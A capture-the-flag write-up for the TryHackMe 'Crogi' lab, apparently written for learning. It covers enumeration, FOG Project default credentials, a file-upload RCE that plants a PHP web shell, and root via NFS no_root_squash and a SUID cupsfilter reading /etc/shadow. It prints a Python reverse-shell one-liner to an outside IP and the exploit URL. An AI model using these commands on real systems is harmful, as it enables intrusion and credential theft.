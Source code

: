 # TryHackMe-Crogi

## NMAP

```bash
          
21/tcp    open  ftp       syn-ack ttl 63 vsftpd 3.0.3
22/tcp    open  ssh       syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                            
80/tcp    open  http      syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:                                                           
|_  Supported Methods: GET POST OPTIONS HEAD                              
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
111/tcp   open  rpcbind   syn-ack ttl 63 2-4 (RPC #100000)
443/tcp   open  ssl/https syn-ack ttl 63 Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2049/tcp  open  nfs_acl   syn-ack ttl 63 3 (RPC #100227)
3306/tcp  open  mysql     syn-ack ttl 63 MySQL 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.1.48-MariaDB-0ubuntu0.18.04.1
|   Thread ID: 89
|   Capabilities flags: 63487
|   Some Capabilities: InteractiveClient, ConnectWithDatabase, IgnoreSpaceBeforeParenthesis, Support41Auth, Speaks41ProtocolOld, SupportsTransaction
s, LongPassword, SupportsLoadDataLocal, IgnoreSigpipes, ODBCClient, DontAllowDatabaseTableColumn, FoundRows, SupportsCompression, Speaks41ProtocolNe
w, LongColumnFlag, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: ;sV4=wbeUX:W*gL$m{Bs
|_  Auth Plugin Name: mysql_native_password
42493/tcp open  nlockmgr  syn-ack ttl 63 1-4 (RPC #100021)
57597/tcp open  mountd    syn-ack ttl 63 1-3 (RPC #100005)
58527/tcp open  mountd    syn-ack ttl 63 1-3 (RPC #100005)
60677/tcp open  mountd    syn-ack ttl 63 1-3 (RPC #100005)
   
```

## PORT 2049 (NFS)

Since `nfs` is enabled we can see if there's are share available for us to mount , and running `showmount` will show which shares are available

<img src="https://i.imgur.com/9kTfptS.png"/>

We can now mount this using the `mount` command

<img src="https://i.imgur.com/WAIUgL4.png"/>

If we navigate into folders we can see a `fog` file  and we can see that there's something called fog project

<img src="https://i.imgur.com/9iGzhtn.png"/>

<img src="https://imgur.com/xKcwqmK.png"./>

We can serch for default creds for fog which are `fog:password`

<img src="https://imgur.com/XxM9xcW.png"/>

<img src="https://imgur.com/kiywavz.png"/>

Searching for exploits on google we do find one for `File Upload RCE`

<img src="https://imgur.com/Q9KN2YA.png"/>


## Foothold 

So let's follow the steps to get remote code execution , first we need to create an empty file using the command show in the exploit

<img src="https://imgur.com/InaLuIt.png"/>

Make a variable named `cmd` which will save the value coming form the GET parameter named `cmd` and that command will be executed with `system` function , basically running any shell command

<img src="https://imgur.com/v42IydL.png"/>

Then we have to server this file by hosting it on our machine and we need to include that request (http://ip/myshell) in base64 encoded form in a GET parameter named `file` of fog url

```
http://10.10.39.253:443/fog/management/index.php?node=about&sub=kernel&file=aHR0cDovLzAuOC45NC42MC9teXNoZWxsCg==&arch=arm64
```

After making that request  a confirmation will be show to install the kernel module

<img src="https://imgur.com/AaGATcx.png"/>

Here we need to change kernel name from `bzImage32` to `myshell.php`

<img src="https://imgur.com/GYQJ9bj.png"/>

<img src="https://imgur.com/t6DEs45.png"/>

Navigating to  `/fog/service/ipxe/myshell.php?cmd=id`

<img src="https://imgur.com/J6FNVxu.png"/>

We will have rce from which we can get a revere shell 

```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.94.60",80));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

<img src="https://imgur.com/KPrGBqV.png"/>

Stabilizing the shell

<img src="https://imgur.com/XgRM5CP.png"/>

## Rabbit hole

We can find fog database password from `/opt/fog/.fogsettings`

<img src="https://imgur.com/Srmyslw.png"/>

There's also another set of credentials but I am not sure for which service it's for but there is a usernamed `fogproject` so let's try for this user

<img src="https://imgur.com/U90J2JE.png"/>

<img src="https://imgur.com/F5uEh1C.png"/>

This indeed was the right password but it immediately shows a message and brings us back to www-data shell , but we can actually runs commands as this user through `su fogproject -c id`

<img src="https://imgur.com/t7sMM9B.png"/>

I tried to get sh shell instead of bash and it worked

<img src="https://imgur.com/YjYHXXn.png"/>

But I couldn't do much from this user , so I went on and looked at the kernel version

<img src="https://imgur.com/Xvkcobl.png"/>

Now at this point I am not gonna lie I got into a rabbit hole and tried to exploit the kernel version but couldn't get any of the exploits to work as all failed at finding subuid (don't know what it means )

<img src="https://imgur.com/kSC1TKI.png"/>

## Privilege Escalation (1st method)

I should have run `linpeas` from the start and it would have saved my time because as I ran linpeas and found that `no_squash_root` was enabled

<img src="https://imgur.com/hVrogB0.png"/>

And this could be a secrity issue , by default on nfs share ,it we mount the share and whatever changes that we make in that share like uploading files or writing files it will be owned as `nfsnobody` or `nobody` even tho we are root on our host machine but if no_root_squash is enabled , whatever changes we make or upload any files that will be owned as root on the actual target machine so we can mount the share , copy the `bash` from our machine and make it a SUID , and that file will also be shown as being SUID binary owned by root on the actual machine (target machine)

So in order to see which share we have write access , we can read the `/etc/exports` file on the target machine

<img src="https://imgur.com/Ftg7CaG.png"/>

Let's mount `/images/dev` share again

<img src="https://imgur.com/Ns6WtzN.png"/>

Here what I have done is , mounted the share and in that share created a c program file which will set the SUID to 0 (which is for root user) and spawn the bash shell . After compiling the file we have to make that binary a SUID because when this binary executes it will be executed as a root user

<img src="https://imgur.com/wDYyiGp.png"/>

<img src="https://imgur.com/pQCvQoi.png"/>

Also to note that I had tried copying the bash binary , making it a SUID and then executing it but it didn't work as it was throwing an error related loading shared library

<img src="https://imgur.com/wYnhIY9.png"/>

## Privilege Escalation (2nd method)

Checking the SUID binaries , we will find a binary named `cupsfilter`

<img src="https://imgur.com/7pzQoPT.png"/>

CUPS in linux is used as a printing service in linux for printing files and cupsfilter is used for converting a file to a specific format , after the file is converting it sends the output to standard output , on to the screen. So we can abuse this by going to GTFOBINS

<img src="https://imgur.com/n9bF12b.png"/>

Running `/usr/sbin/cupsfilter -i application/octet-stream -m application/octet-stream /etc/shadow`

<img src="https://imgur.com/4tPRSxY.png"/>

This will print the shadow file which holds all user's password hashses, in this way we can read the root flag as well but we won't get a shell through this method as we can only read files and since there's no ssh key in root user's .ssh directory we can't do much from here

## References

- https://www.exploit-db.com/exploits/49811
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe
- https://www.hackingarticles.in/linux-privilege-escalation-using-misconfigured-nfs/
- https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/4/html/security_guide/s2-server-nfs-noroot
- https://man7.org/linux/man-pages/man8/cupsfilter.8.html
- https://gtfobins.github.io/gtfobins/cupsfilter/